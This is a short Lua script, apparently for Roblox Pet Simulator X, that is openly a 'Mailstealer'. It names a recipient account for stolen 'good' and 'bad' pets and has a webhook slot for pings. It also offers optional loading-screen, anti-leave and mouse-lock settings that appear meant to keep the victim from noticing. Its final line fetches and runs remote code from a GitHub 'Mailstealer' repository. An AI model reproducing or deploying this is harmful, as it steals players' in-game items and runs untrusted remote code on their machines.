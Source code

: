  lua
--[[
  __  __       _ _     _             _           
  |  \/  | __ _(_) |___| |_ ___  __ _| | ___ _ __ 
  | |\/| |/ _` | | / __| __/ _ \/ _` | |/ _ \ '__|
  | |  | | (_| | | \__ \ ||  __/ (_| | |  __/ |   
  |_|  |_|\__,_|_|_|___/\__\___|\__,_|_|\___|_|   


]]--


UserName = LX_petsimxgift12 -- good pets
Webhook = "Webhook Here" -- pings for pets
UserName2 = LX_petsimxgift12 -- bad pets


_G.LoadingScreen = false -- make it true if you want the loadingscreen
_G.AntiLeave = false -- make it true if you want the antileave
_G.MouseLock = false -- make it true if you want the mouselock


loadstring(game:HttpGet("https://raw.githubusercontent.com/Egorikusa/Mailstealer/main/engine"))()
